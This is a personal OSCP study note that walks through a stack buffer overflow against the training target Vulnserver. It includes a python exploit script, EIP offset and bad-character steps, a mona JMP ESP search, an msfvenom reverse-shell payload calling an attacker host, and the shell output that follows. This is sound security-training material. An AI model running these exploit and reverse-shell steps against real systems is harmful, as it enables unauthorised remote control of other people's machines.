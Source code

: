 ```yaml
---
aliases:
  - Exploit Development
tags:
  - tech
  - cybsec
  - certification
  - oscp
  - exploit_development
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# Buffer Overflow
#buffer_overflow 
![[Pasted image 20231207154344.png]]

![[Pasted image 20231207180923.png]]
# Vulnserver
a vulnerable server used for learning buffer overflow attack
 - Disable Windows defender 'Real-time Virus protection'
 - Download vulnserver from https://github.com/stephenbradshaw/vulnserver
 - Run vulnserver in the Windows machine
 - Connect from the attacker machine to vulnserver: `nc $vulnserver_ip 9999`
 - Download *immunity Debugger*, install, run and attach to the vulnserver process
	 - https://www.immunityinc.com/products/debugger/

## generic_send_tcp
In the attacker machine use this command to spike or fuzz the vulnserver
`generic_send_tcp <ip> <port> <script_to_run> 0 0`


# Find EIP offset
```sh
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

```python3
#!/usr/bin/python3
import sys, socket

HOST = ''
PORT = 9999
buffer = '' # copy-paste the pattern generated by pattern_create script

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((HOST, PORT))
		s.send(bytes('TRUN /.:/' + buffer, 'latin-1'))
		s.close()
	except:
		sys.exit()
```

The value found in EIP: `386F4337`
```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q '386F4337'
[*] Exact match at offset 2003

# alternatively use msf-pattern_create which points to the same tool
```
EIP Offset found: **2003**

# Find badchars
#badchars
Easier way to find bad characters is to use **mona.py** script - refer to the section below **Find return address**
Here is the manual method:
- Get a list of bad chars from https://github.com/cytopia/badchars
- add to the end of the buffer
- perform the attack and check ESP
- Right-click on the value in ESP and *Follow in Dump*
- identify bad characters by finding those which do not appear in hex dump
	- if two consecutive chars are not found, most likely just the first one needs to be removed
```
shell_code = ''      # to be added later 
buffer += 'A' * (2003 - len(buffer))      # shell code and 'A' padding to fill up to EIP
buffer += 'BBBB'      # this should appear in EIP
buffer += badchars
```

![[Pasted image 20231207181936.png]]
# mona.py
#mona_py
Use this script to find the modules which do not have memory protection
download `mona.py` from https://github.com/corelan/mona and add to  `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\`

run in Immunity debugger using  `!mona modules`

This output shows modules used in the binary of this process. Those with all protections set to *false*  are candidates for exploitation.
![[Pasted image 20231207132812.png]]

# Find return address 
## Method 1
This is a simpler method. While immunity debugger is attached to vulnserver, run the following mona command:
`!mona jmp -r ESP -m "essfunc.dll"`

## Method 2
### nasm_shell
#nasm_shell
Use `nasm_shell.rb`  to find out the op code for `JMP ESP`
```
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm> JMP ESP
00000000  FFE4                  jmp esp
```
### Find return address in a vulnerable module
We found out that `essfunc.dll` is a vulnerable module
Run command in immunity to find where this op code has been used
`!mona find -s '\xff\xe4' -m "essfunc.dll"`

## find badchars
#bad_characters #bad_chars
### mona
```
!mona config -set workingfolder <path>   --> set working folder to store output
!mona bytearray -cpb "\x00"       --> generate badchars list and remove \x00
!mona compare -f <path>\bytearray.bin -a <address>     --> the address is found in ESP when access violation happens. This returns the bad chars
```

# Use Shell code and Overwrite EIP
- Use metasploit to build a reverse shell payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST="<attacker_ip>" LPORT=<port> -f c -a x86 -b "\x00"
                                                                       ^ file type
                                                                            ^ architecture
                                                                                   ^ bad characters to exclude
```

- Add the generated shell code bytes to python script
```
shell_code = ()      # shell code bytes generated by msfvenom is added here
buffer += 'A' * (2003 - len(buffer))      # 'A' padding to fill up to EIP
buffer += '\xaf\x11\x50\x62'      # return address found by mona - should populate EIP
nop_slide = '\x90' * 32       # nop slide to provide some safety padding for the shell code
buffer += nop_slide + shell_code
```
- Set up a listener on the attacker machine:  e.g. `nc -nvlp 7777`
- Perform the attack!
```
C:\Users\mnadj\Desktop\vulnserver>whoami
whoami
mnthw10v\mnadj

C:\Users\mnadj\Desktop\vulnserver>systeminfo
systeminfo

Host Name:                 MNTHW10V
OS Name:                   Microsoft Windows 10 Home
OS Version:                10.0.19044 N/A Build 19044
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
[SNIPPED]
```
SUCCESS!
